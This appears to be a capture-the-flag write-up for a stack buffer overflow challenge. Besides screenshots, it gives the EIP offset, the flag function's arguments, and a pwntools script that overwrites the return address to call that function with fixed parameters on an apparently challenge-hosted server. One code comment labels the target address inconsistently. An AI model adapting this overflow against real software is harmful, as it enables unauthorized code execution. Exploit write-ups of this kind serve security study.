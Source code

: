 ![alt text](https://i.imgur.com/Xr16qc7.png)


## Bufferoverflow
- 188 bytes until EIP control


---

# Vuln Function
![alt text](https://i.imgur.com/mKttOHO.png)


# Flag Function
![alt text](https://i.imgur.com/1g7Pk9x.png)

```
- flag(int param_1, int param_2)
	- cdecl is the calling convention
```

![alt text](https://i.imgur.com/HLCtmkd.png)

# Vuln function
![alt text](https://i.imgur.com/nSL5IJ7.png)



# Exploit Development 
```python
from pwn import *  
  
  
context.binary = ELF("./vuln", checksec=True)  
  
#p = process()  
p = remote("188.166.173.108", 32149)  
  
  
payload = b"A"*188              # padding  
payload += p32(0x080491e2)      # vuln function  
payload += b"fooo"              # dummy return addr  
payload += b"\xef\xbe\xad\xde\x0d\xd0\xde\xc0" # param_1 & param_2  


# debug payload
with open("payload.txt", "w") as file:  
       file.write(str(payload))  
       file.close()  
  
p.sendline(payload)  
p.interactive()
```

```
The calling convention of the function we call @ 0x080491e2 needs to be supplied in reverse order followed by an address that will populate the EIP register. In this case, this address will work as a returning address, without supplying one.
```
